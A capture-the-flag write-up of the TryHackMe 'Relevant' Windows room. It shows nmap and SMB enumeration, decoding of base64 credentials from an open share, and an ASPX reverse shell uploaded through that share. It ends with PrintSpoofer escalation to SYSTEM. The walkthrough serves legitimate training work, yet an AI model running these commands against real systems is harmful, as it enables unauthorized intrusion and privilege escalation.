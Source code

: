 # 50 - Relevant (windows SeImpersonateToken priv esc)

Room Link --> [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.15.188 -p- -T4

PORT      STATE SERVICE            REASON  VERSION
80/tcp    open  http               syn-ack Microsoft HTTPAPI httpd 2.0 
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows Server 2008 R2
3389/tcp  open  ssl/ms-wbt-server? syn-ack
49663/tcp open  http               syn-ack Microsoft HTTPAPI httpd 2.0 
49667/tcp open  msrpc              syn-ack Microsoft Windows RPC
49669/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: 
```
{% endcode %}

#### SMB enum

```bash
crackmapexec smb 10.10.15.188 -u 'anonymous' -p 'anonymous' --shares
```

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption></figcaption></figure>

#### SMBMAP enum

```bash
smbmap -H 10.10.15.188 -u 'anonymous' -p 'anonymous'
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>

We can use crackmapexec to spider through and download everyshare we have read/write access to.

{% code overflow="wrap" lineNumbers="true" %}
```bash
crackmapexec smb 10.10.168.89 -u anonymous -p '' -M spider_plus -o READ_ONLY=true
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now goto `/tmp` dir and view the downloaded flles.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ cd /tmp/cme_spider_plus                                                          
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ ls -al
total 24
drwxr-xr-x  3 dking dking  4096 Nov  1 06:26 .
drwxrwxrwt 35 root  root  12288 Nov  1 06:26 ..
drwxr-xr-x  3 dking dking  4096 Nov  1 06:26 10.10.168.89
-rw-r--r--  1 dking dking   245 Nov  1 06:26 10.10.168.89.json

┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ cat 10.10.168.89.json         
{
    "nt4wrksv": {
        "passwords.txt": {
            "atime_epoch": "2020-07-25 16:13:05",
            "ctime_epoch": "2020-07-25 16:13:05",
            "mtime_epoch": "2020-07-25 16:35:44",
            "size": "98 Bytes"
        }
    }
}                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus]
└─$ cd 10.10.168.89        
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89]
└─$ ls -al
total 12
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 .
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 ..
drwxr-xr-x 2 dking dking 4096 Nov  1 06:26 nt4wrksv
                                                                                                             
┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89]
└─$ ls -al nt4wrksv 
total 12
drwxr-xr-x 2 dking dking 4096 Nov  1 06:26 .
drwxr-xr-x 3 dking dking 4096 Nov  1 06:26 ..
-rw-r--r-- 1 dking dking   98 Nov  1 06:26 passwords.txt

┌──(dking㉿dking)-[/tmp/cme_spider_plus/10.10.168.89/nt4wrksv]
└─$ cat passwords.txt    
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
{% endcode %}

There are some encoded passwords here.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# decoded passwords.
┌──(dking㉿dking)-[~/Downloads]
└─$ echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d
Bob - !P@$$W0rD!123                                                                                                                    
┌──(dking㉿dking)-[~/Downloads]
└─$ echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```
{% endcode %}

Since we have access to `IPC$` shar, we could enumerate users anonymously.

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.168.89 | grep SidTypeUser

500: RELEVANT\Administrator (SidTypeUser)
501: RELEVANT\Guest (SidTypeUser)
503: RELEVANT\DefaultAccount (SidTypeUser)
1002: RELEVANT\Bob (SidTypeUser)

# we got Bob. But thats by the way, since we already got his credentials.
```
{% endcode %}

I tried to login using psexec but it did't work.

{% code overflow="wrap" lineNumbers="true" %}
```bash
/usr/share/doc/python3-impacket/examples/psexec.py 'bill:Juw4nnaM4n420696969!$$$@10.10.168.89'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Web Enumeratioon

Navigating to the http server, `10.10.117.41:49663` -&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# nmap default script scan for port 49663.
49663/tcp open  http    syn-ack Microsoft IIS httpd 10.0
|_http-title: IIS Windows Servert
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
```
{% endcode %}

#### FFUF enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u http://10.10.117.41:49663/FUZZ -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 403,400 -t 500 -ic

# the only dir found was at the latter end
┌──(dking㉿dking)-[~]
└─$ grep nt4wrksv /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -n
220538:nt4wrksv
```
{% endcode %}

### Initial Access

Navigating to the dir: `http://10.10.117.41:49663/nt4wrksv/`- we see its same as the SMB share dir. So `http://10.10.117.41:49663/nt4wrksv/passwords.txt`  -

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Meaning we are accessing the SMB share on the webserver. So we can put a malicious `.asp or .aspx` file to get reverse shell. Setup nc listener and we get a shell by executing the `.aspx` file on the server.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see user.txt flag in Bob dir.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

Since we are service account, we have the `seimpersonate` privs.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I already have a writeup for priv esc using `seimpersonate` [privileges](6-windows-priv-esc.md#15-token-impersonation-printspoofer) .

Upload `printspoofer.exe` into the windows machine.

```bash
.\PrintSpoofer.exe -i -c cmd
```

And we should get `nt/authority system` .

Done!

